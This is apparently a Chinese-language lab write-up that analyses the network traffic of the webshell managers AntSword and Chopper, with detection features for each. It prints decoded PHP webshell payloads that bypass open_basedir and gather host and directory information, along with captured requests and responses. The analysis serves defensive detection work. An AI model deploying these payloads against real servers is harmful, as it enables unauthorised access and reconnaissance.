

# C2 流量分析 - 蚁剑、菜刀

## 蚁剑

环境，使用蚁剑连接一句话木马，使用`wireshark`抓包

### 流量分析

开启抓包，使用蚁剑测试连接，然后进入连接并开启虚拟终端执行命令`whoami`



追踪第一个数据包（测试连接）的`HTTP`流


很明显的数据包，返回的也是明文，返回的是主机信息


请求包分析，请求头

```bash
POST /antsword.php HTTP/1.1
Host: 192.168.111.170:8080
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.2; rv:22.0) Gecko/20130405 Firefox/22.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 1788
Connection: close
```

将请求体做URL解码

代码大概就是绕过`open_basedir`限制，然后收集服务器信息

```bash
@ini_set("display_errors", "0");
@set_time_limit(0);

$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());

    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        }
        $tmdir = $item . "/.46fccbd0";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        $tmdir = realpath($tmdir);
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        }
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    }
}

function asenc($out) {
    return $out;
}

function asoutput() {
    $output = ob_get_contents();
    ob_end_clean();
    echo "faed" . "aaf9";
    echo @asenc($output);
    echo "4b70" . "1f90";
}

ob_start();

try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") {
        $D = dirname($_SERVER["PATH_TRANSLATED"]);
    }
    $R = "{$D}\t";

    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) {
            if (is_dir("{$L}:")) {
                $R .= "{$L}:";
            }
        }
    } else {
        $R .= "/";
    }

    $R .= "\t";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "\t{$s}";

    echo $R;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
}

asoutput();
die();
```

响应包

```bash
HTTP/1.1 200 OK
Host: 192.168.111.170:8080
Date: Wed, 12 Mar 2025 02:52:23 GMT
Connection: close
X-Powered-By: PHP/8.3.6
Content-type: text/html; charset=UTF-8

faedaaf9/home/sunset/Desktop/test/www	/	Linux sunset-ubuntu 6.11.0-19-generic #19~24.04.1-Ubuntu SMP PREEMPT_DYNAMIC Mon Feb 17 11:51:52 UTC 2 x86_64	root4b701f90
```

追踪第二个数据包（进入链接的数据包）

第二个数据包和第一个测试连接的数据包一样，应该是进入连接时也会进行一次服务器信息收集


追踪第三个数据包


可以看到存在目录信息，也就是连接后显示的目录信息


请求头

```bash
POST /antsword.php HTTP/1.1
Host: 192.168.111.170:8080
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.2; .NET CLR 1.1.4322; .NET4.0C; Tablet PC 2.0)
Content-Type: application/x-www-form-urlencoded
Content-Length: 1878
Connection: close
```

请求体

和之前的差不多，将获取服务器信息的不分换成了获取服务器目录信息

```bash
@ini_set("display_errors", "0");
@set_time_limit(0);

$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());

    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        }
        $tmdir = $item . "/.4a6b9dbe332c";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        $tmdir = realpath($tmdir);
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        }
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    }
}

function asenc($out) {
    return $out;
}

function asoutput() {
    $output = ob_get_contents();
    ob_end_clean();
    echo "8bf" . "4eba";
    echo @asenc($output);
    echo "c6a7e3" . "f96338";
}

ob_start();

try {
    $D = base64_decode(substr($_POST["r5b6ff2338f2a"], 2));
    $F = @opendir($D);

    if ($F == NULL) {
        echo("ERROR:// Path Not Found Or No Permission!");
    } else {
        $M = NULL;
        $L = NULL;
        while ($N = @readdir($F)) {
            $P = $D . $N;
            $T = @date("Y-m-d H:i:s", @filemtime($P));
            @$E = substr(base_convert(@fileperms($P), 10, 8), -4);
            $R = "	" . $T . "	" . @filesize($P) . "	" . $E . "\n";

            if (@is_dir($P)) {
                $M .= $N . "/" . $R;
            } else {
                $L .= $N . $R;
            }
        }
        echo $M . $L;
        @closedir($F);
    }
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
}

asoutput();
die();
```

响应包

```bash
HTTP/1.1 200 OK
Host: 192.168.111.170:8080
Date: Wed, 12 Mar 2025 02:52:29 GMT
Connection: close
X-Powered-By: PHP/8.3.6
Content-type: text/html; charset=UTF-8

8bf4ebauid/	2025-03-05 04:09:05	4096	0755
../	       2025-03-08 04:52:34	4096	0755
./	       2025-03-12 02:52:16	4096	0755
antsword.php	2025-03-12 02:52:16	28	0644
c6a7e3f96338
```

追踪第五个数据包，是进入虚拟终端的包


请求头

```bash
POST /antsword.php HTTP/1.1
Host: 192.168.111.170:8080
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)
Content-Type: application/x-www-form-urlencoded
Content-Length: 4944
Connection: close
```

响应包

```bash
HTTP/1.1 200 OK
Host: 192.168.111.170:8080
Date: Wed, 12 Mar 2025 02:52:36 GMT
Connection: close
X-Powered-By: PHP/8.3.6
Content-type: text/html; charset=UTF-8

b3c0187a0026f328fd
/home/sunset/Desktop/test/www
3ea25ab824
9e5274ff770
```

### 特征

1. 请求体
    
    可以看到测试的数据包的请求体头部前部分都存在
    
    ```bash
    @ini_set("display_errors", "0");@set_time_limit(0);
    ```
    
2. 响应包都是明文，并且存在随机数
3. 使用URL编码

## 菜刀

1，请求包中：ua头为百度，火狐

2，请求体中存在`eavl`，`base64`等特征字符

3，请求体中传递的`payload`为`base64`编码，并且存在固定的`QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J`